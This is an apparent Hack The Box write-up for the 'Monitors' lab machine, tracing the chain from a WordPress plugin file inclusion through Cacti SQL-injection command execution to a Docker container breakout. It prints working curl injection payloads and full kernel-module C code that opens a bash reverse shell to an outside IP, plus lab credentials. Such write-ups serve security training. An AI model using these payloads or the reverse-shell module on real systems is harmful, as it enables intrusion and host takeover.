

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.238 monitors.htb

**nmap scan:**
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
|   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
|_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.5.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to Monitor &#8211; Taking hardware monitoring seriously
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**Port 80** is running wordpress


* WordPress version 5.5.1 identified
* User(s) Identified: admin
* *don't know the reason but `Monitor.htb` gives 403 Forbidden and`Monitors.htb` give 200.* 

**wpscan:**
```bash
❯ wpscan -e ap --url http://monitors.htb

... [snip] ...

[i] Plugin(s) Identified:

[+] wp-with-spritz
 | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2015-08-20T20:15:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
 |     References:
 |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
 |      - https://www.exploit-db.com/exploits/44544/
 |
 | Version: 4.2.4 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
```

# Foothold

## wp-plugin Spritz LFI

* [wpscan](https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8): The WP with Spritz WordPress plugin was affected by an Unauthenticated File Inclusion security vulnerability.
  * ExploitDB - https://www.exploit-db.com/exploits/44544
  * **Proof of Concept** `http://www.example.com/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd`

```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/hostname'
monitors
```

Get username and password from `wp-config.php`
```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/var/www/wordpress/wp-config.php' | grep define | head -n3
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'wpadmin' );
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```

In Apache on Ubuntu, all the virtual host configuration files are stored under `/etc/apache2/sites-available` directory. With the new Apache installation you can find a default virtual host file called `000-default.conf` there.
```bash
❯ curl -s 'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/etc/apache2/sites-available/000-default.conf'
# Default virtual host settings
# Add monitors.htb.conf
# Add cacti-admin.monitors.htb.conf
... [snip] ...
```

found "virtual host" `cacti-admin.monitors.htb`.

## cacti SQLi Stacked Queries to RCE

**[cacti](https://www.cacti.net/)** is an open-source, web-based network monitoring and graphing tool designed as a front-end application for the open-source, industry-standard data logging tool RRDtool. Cacti allows a user to poll services at predetermined intervals and graph the resulting data.

Running **Version 1.2.12**

[CVE-2020-14295](https://nvd.nist.gov/vuln/detail/CVE-2020-14295): A SQL injection issue in color.php in Cacti 1.2.12 allows an admin to inject SQL via the filter parameter. This can lead to remote command execution because the product accepts stacked queries.

Found Exploit: [Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution ](https://www.exploit-db.com/exploits/49810)

Here is the PoC: https://github.com/Cacti/cacti/issues/3622

Login with wordpress user and dbpass: `admin:BestAdministrator@2020!`


parameter `filter` in `color.php` in vulnerable for sql injection in export request.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,version(),database(),4,5,6,7--+-'
```


PoC also tells that application accept stacked queries, which lead to remote code execution by replacing the `path_php_binary` setting inside the database.

**stacked queries:** In SQL, a semicolon indicates that the end of a statement has been reached and what follows is a new one. This allows executing multiple statements in the same call to the database server; **Source [sqlinjection.net](https://www.sqlinjection.net/stacked-queries/)**

And `path_php_binary` is just a variable in cacti config file which stored php binary location. If we replace this value with any system command, it get executed by the server.

Set value in `path_php_binary`
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,2,3,4,5,6,7;update+settings+set+value=\'ping+-c+2+10.10.14.187;\'+where+name=\'path_php_binary\';--+-'
```

Verify `path_php_binary` value.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name=\'path_php_binary\';--+-'
```


Then call `host.php?action=reindex` which get the `shell_exec` called with the `path_php_binary`.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/host.php?action=reindex'
```



reverse shell with exploit script.


# Privesc

## Socat Portforwarding

Found cacti config file `/usr/share/cacti/cacti/include/config.php`, which contains database creds `cacti:cactipass`

Viewing running processes, notice one thing, some systemd service running from user marcus
```bash
(remote) www-data@monitors:/etc$ ps -aux | grep marcus
root       6000  0.0  0.0  60088     0 pts/5    S    May29   0:00 su marcus
marcus     6001  0.0  0.1  76780  4976 ?        Ss   May29   0:00 /lib/systemd/systemd --user
marcus     6002  0.0  0.0 259044     4 ?        S    May29   0:00 (sd-pam)
... [snip] ...
```

found cacti-backup service using 


and from backup file get user "marcus" password


<!--marcus:VerticalEdge2020-->


from user "marcus" found local service running on port "8443"
```bash
LISTEN   0         128               127.0.0.1:8443             0.0.0.0:*                                            
```

find process running on port "8443"
```bash
marcus@monitors:~$ ps -aux | grep 8443
root       2095  0.0  0.0 628508  3912 ?        Sl   May30   0:08 /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 8443 -container-ip 172.17.0.2 -container-port 8443
```

socat already install on the box, use it to forward the port.
```bash
marcus@monitors:~$ socat tcp-listen:8444,reuseaddr,fork tcp:localhost:8443
```

port 8443 is running **Apache Tomcat/9.0.31**


## "ofbiz" Deserialization RCE

Tomcat is running [ofbiz](https://ofbiz.apache.org/) *found from gobuster*


**Apache OFBiz** is an open source enterprise resource planning system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

Running version **Apache OFBiz. Release 17.12.01** 

Found [List of Known Vulnerabilities](https://ofbiz.apache.org/security.html)


<!--CVE-2021-26295 Not able to get reverse shell
* [CVE-2021-29200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29200): Apache OFBiz has unsafe deserialization prior to 17.12.07 version An unauthenticated user can perform an RCE attack 
  * PoC by [r0ckysec@github](https://github.com/r0ckysec/CVE-2021-29200)
-->

<!--CVE-2021-26295 Not able to get reverse shell
* [CVE-2021-26295](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26295): Apache OFBiz has unsafe deserialization prior to 17.12.06. An unauthenticated attacker can use this vulnerability to successfully take over Apache OFBiz. 
  * PoC by [r0ckysec@github](https://github.com/r0ckysec/CVE-2021-26295)
-->

**[CVE-2021-30128](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-30128): Apache OFBiz has unsafe deserialization prior to 17.12.07 version**

* PoC by [r0ckysec@github](https://github.com/r0ckysec/CVE-2021-30128)
* [Online tool](http://jackson-t.ca/runtime-exec-payloads.html) for `java.lang.Runtime.exec()` Payload
* require [ysoserial](https://github.com/frohoff/ysoserial)

  

<!--Not tested
- [ ] TODO
* [CVE-2020-9496](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9496): XML-RPC request are vulnerable to unsafe deserialization and Cross-Site Scripting issues in Apache OFBiz 17.12.03 
  * PoC by []()

* [CVE-2020-13923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-13923): IDOR vulnerability in the order processing feature from ecommerce component of Apache OFBiz before 17.12.04
  * [MSF module](https://www.rapid7.com/db/modules/exploit/linux/http/apache_ofbiz_deserialiation/)
-->

## Container with `SYS_MODULE` Capability

The container has `SYS_MODULE` capability. As a result, the container can insert/remove kernel modules in/from the kernel of the Docker host machine.


* [linux capabilities](https://blog.container-solutions.com/linux-capabilities-in-practice), [](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)
* **CAP_SYS_MODULE:** This means that you can insert/remove kernel modules in/from the kernel of the host machine.
* abusing `sys_module` capability
  * Exploit Scripts from [hacktricks.xyz](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#example-with-environment-docker-breakout-2)
  * Orignal Post from [blog.pentesteracademy.com](https://blog.pentesteracademy.com/abusing-sys-module-capability-to-perform-docker-container-breakout-cf5c29956edd)

### Exploit

**Write a program to invoke a reverse shell with the help of usermode Helper API.**
```c++
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.15.71/4141 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };
static int __init reverse_shell_init(void) {
return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}
static void __exit reverse_shell_exit(void) {
printk(KERN_INFO "Exiting\n");
}
module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```

**Create a Makefile to compile the kernel module.**
```makefile
obj-m +=reverse-shell.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

**Run `make`**

**Start reverse shell listener**

**Execute module `insmod reverse-shell.ko`**

